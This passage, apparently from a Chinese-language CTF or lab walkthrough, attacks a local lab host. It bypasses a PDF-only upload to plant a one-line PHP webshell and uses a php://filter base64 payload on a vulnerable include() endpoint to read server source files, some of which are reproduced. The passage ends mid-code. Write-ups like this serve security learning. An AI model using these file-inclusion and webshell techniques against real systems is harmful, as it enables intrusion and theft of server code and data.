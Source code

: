 ![image](https://github.com/user-attachments/assets/490fd5c8-e25d-4309-8278-3f825fac9744)

没意思，key6 就这么到手了

好戏接着上演，有个上传文件的地方，这不妥妥提示有文件上传漏洞吗？

但是只能传 pdf 文件，嗐，改个后缀不就行了

立马写个一句话木马，但是这玩意上传到哪里？还不知道

21 端口搞完了，再看看 6721

访问http://192.168.216.128:6721

发现发现 http://192.168.216.128:6721/api/query_pdf.php

需要POST参数为archive

上传漏洞有了，再来个不包含漏洞不过分吧？

顺藤摸瓜

先在 POST 来一个archive=php://filter/read=convert.base64-encode/resource=./query_pdf.php

解码之后得到

```
<meta charset="utf-8">
<?php
$archive = $_POST['archive'];
include($archive);

if(!isset($archive)){
	echo "<p>COVID-19ç´§æ¥æ¡£æ¡æ¥è¯¢API</p>";
	echo "<p>* è¯·æ±æ¹å¼ - POST *</p>";
	echo "<p>* è¯·æ±åæ° - archive *</p>";
}
?>
```
拿到一个网页总得看看源码吧，利用这个漏洞

archive=php://filter/read=convert.base64-encode/resource=/var/www/html/PIzABXDg/index.php
就能得到

```
<?php require('config.php');?>
<?php include('lib/functions.php');?>
<?php require('lib/mysql.class.php');?>
<?php
@extract($_GET,EXTR_PREFIX_ALL,"g");
if(isset($_POST['submit']) || isset($g_submit)){
  @check_post_request();
  @extract($_POST,EXTR_PREFIX_ALL,"p");
}

session_cache_limiter('private,must-revalidate');
if(!isset($_SESSION)){
  session_start();
}
$db = new c_mysql;
$g_m = (isset($g_m) && in_array_key($g_m,$config['model'])) ? $g_m : 'login';
$g_o = isset($g_o) ? $g_o : '';

if($g_m != 'login')
  if(!isset($_SESSION['uid'])){
    header('Location:?m=login');
	exit();
  }
  
if(isset($_SESSION['uid']) && $g_m != 'login'){
```